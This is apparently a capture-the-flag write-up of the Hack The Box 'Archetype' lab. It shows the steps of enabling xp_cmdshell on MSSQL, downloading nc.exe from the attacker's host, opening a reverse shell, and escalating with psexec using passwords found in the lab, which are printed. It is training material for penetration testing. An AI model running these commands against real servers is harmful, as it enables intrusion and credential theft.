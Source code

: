 ```yaml
---
title: "Archetype"
description: A writeup on the machine Archetype form hackthebox starting point Tier2 level 
date: 2024-09-23
draft: false # this section allows the post to be published and be public, is it is set to true the post will not be published.
summary: "Archetype Stuff" # Here you can write a small summary of the post if needed
tags: [HTB, Very Easy ]
categories: [Tier2, Starting point]
---
```

# Archetype

![Untitled.jpg](Untitled.jpg)

## Task 1

Which TCP port is hosting a database server?

![image.png](image.png)

1433

## Task 2

What is the name of the non-Administrative share available over SMB?

![image.png](image%201.png)

backups

## Task 3

What is the password identified in the file on the SMB share?

![image.png](image%202.png)

M3g4c0rp123

## Task 4

What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

![image.png](image%203.png)

[mssqlclient.py](http://mssqlclient.py/) 

## Task 5

What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

![image.png](image%204.png)

xp_cmdshell

after we log in through impacket, we are required to stabilize our shell using the command above as shown below.

![image.png](image%205.png)

Let us try to gain RCE on this box. Follow these commands in order.

Follow these steps :

```
EXECUTE sp_configure 'show advanced options',1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

Now try running :

```
xp_cmdshell "whoami"
```

Now it’s working and this command will return us “archetype/sql_svc”.

**(Stable shell):**

Our shell is working but we won’t be executing our commands like this again
 so we will get a stable shell. Now let’s search and find something.

After some searching we found an article:

[https://pentestwiki.org/academy/how-to-get-a-xp_cmdshell-reverse-shell/](https://pentestwiki.org/academy/how-to-get-a-xp_cmdshell-reverse-shell/)

We will follow the last method: ***xp_cmdshell with nc***

- Here first we have to download nc.exe on our local system, which can be downloaded from the link: [https://github.com/int0x33/nc.exe/blob/master/nc.exe](https://github.com/int0x33/nc.exe/blob/master/nc.exe)
- After downloading let’s set up a python server on our machine in order to send the file to the target system.

```
python3 -m http.server// Keep in mind to run the server in the folder yout nc.exe file is present
```

- We will use the following command to get the file on our target system:

```
xp_cmdshell "powershell.exe wget http://[Your_tun0_IP]:8000/nc.exe -OutFile c:\\Users\Public\\nc.exe"/*
we don't need the rest of the command because :
. we already are connected to sql
. we already logged in using correct credentials
*/
```

- If our file is successfully transferred we will get something like this in our server instance

```
root@ip-10-10-204-169:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.102.63 - - [22/Feb/2022 09:12:04] "GET /nc.exe HTTP/1.1" 200 -
```

- The next step is to execute the file in our target system for the reverse
shell. So for that first, let’s set up our Netcat listener on our
system:

```
nc -lvnp 4444
```

- We will execute the following command in our target system

```
xp_cmdshell "c:\\Users\Public\\nc.exe -e cmd.exe [Your_tun0_IP] 4444"
```

So
 we got our stable shell so our next step is to find the flags. So user 
flag is in the Dekstop folder and we can navigate to that folder :

```
cd \
cd Users
cd sql_svc
cd Desktop
type user.txt
```

![image.png](image%206.png)

## Task 6

What script can be used in order to search possible paths to escalate privileges on Windows hosts?

![image.png](image%207.png)

winpeas.exe

## Task 7

What file contains the administrator's password?

![image.png](image%208.png)

ConsoleHost_history.txt

the file above contains the credentials of the admin that we can use to escalate our privileges to root the machine.

```bash
User: administrator
Password: MEGACORP_4dm1n!!
```

Now we need a tool to log in as Administrator on our target PC and we 
cannot do it directly in our Windows Powershell as we do in the Linux 
system. There is a tool from our impacket named **psexec.py** which will help us.

- Kill the PowerShell and mssqlclient on our machine.
- Let’s use our tool:

```
python3 /opt/impacket/examples/psexec.py administrator@[Target_IP]
```

![image.png](image%209.png)

next we shall change directory to the desktop directory of admin to get our root flag.

![image.png](image%2010.png)

and just like that, we have pawned our machine.